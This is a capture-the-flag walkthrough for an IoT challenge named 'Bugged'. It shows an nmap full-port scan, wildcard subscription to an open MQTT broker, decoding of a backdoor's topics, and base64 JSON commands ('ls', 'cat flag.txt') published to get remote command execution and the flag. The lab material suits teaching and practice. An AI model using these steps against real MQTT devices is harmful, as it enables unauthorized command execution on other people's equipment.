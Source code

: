 # Bugged

## Challenge Information
- **Challenge Name**: Bugged
- **Category**: IoT Security
- **Difficulty Level**: Easy

## Analysis

First of all, run nmap on the ipaddress 
```
nmap <IP_ADDRESS>
```
But this did not give any open ports. So we have to move towards the scanning of all ports for aggressive scanning of all ports, which gave an open port `1883/tcp open mqtt`. 
```
nmap -p 1-65535 -T4 -Pn <IP_ADDRESS>
```
MQTT is a standards-based protocol that's commonly used for data transmission between Internet of Things (IoT) devices and the cloud. It's designed for devices with limited network bandwidth or resource constraints, such as smart sensors and wearables.

Now we will be subscribing to the service to see the communication using the tool `mosquitto_sub`: `mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "#"`. Here we are using `#` to subscribe to all topics. As a result, we can see some communication like:
```
{"id":129618052497693049,"color":"GREEN","status":"ON"}
{"id":1909226905601607364,"in_use":true,"temperature":159.55472,"toast_time":130}
{"id":15739021675742454388,"temperature":24.405937}
{"id":7735145274395155749,"gain":54}
{"id":17520807554009645173,"temperature":23.309986}
{"id":7444800185129679608,"color":"GREEN","status":"ON"}
{"id":9483337689556477149,"yaxis":-163.79924,"xaxis":124.93912,"zoom":1.823662,"movement":false}
{"id":13497795867139887626,"in_use":false,"temperature":146.00859,"toast_time":303}
{"id":10731702524761977214,"gain":47}
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
{"id":11806201323585827923,"temperature":24.21324}
```

The suspicious thing here is the base64 string. Lets decode it using CyberChef, and it will give us:
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```

Here we got:
- The Device ID: "id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d". This is a UUID representing a unique identifier for the IoT device.
- Registered Commands: "registered_commands":["HELP","CMD","SYS"]. The device recognizes the commands HELP, CMD, and SYS, likely for remote control or debugging purposes.
- Publish Topic: "pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub". The device uses this topic to publish data.
- Subscribe Topic: "sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub". The device listens to this topic for commands or instructions.

Now we will subscribe to the publish topic to see the device's outgoing messages: 
```
mosquitto_sub -h <IP_ADDRESS> -p 1883 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"
```
Simultaneously, run following command in different terminal to send the message:
```
mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "HELP"
```
From this, we will receive a base64 string in the terminal where we subscribed the publish topic `SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=`.

Decode this string and it will give:
```
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

So, we came to know the exact format for running the command. Encode the following into base64: 
```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```
It will give an encoding `eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==`. Actually we are trying to execute `ls` command.

Again send this as a message to the terminal: 
```
mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ=="
```
This time, we will receive a base64 encoding `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9`. Decode this and it will give `{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}`. It means that the file for the flag is present in the same directory.

Hence, we will modify the command again get the response on the subscribed terminal. Encode `{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}` into base64 and send it in the terminal 
```
mosquitto_pub -h <IP_ADDRESS> -p 1883 -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0="
```
In the subscribed terminal, we will receive `eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3sxOGQ0NGZjMDcwN2FjOGRjOGJlNDViYjgzZGI1NDAxM31cbiJ9`.

Decode it and it will reveal the flag 
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{18d44fc0707ac8dc8be45bb83db54013}\n"}
```
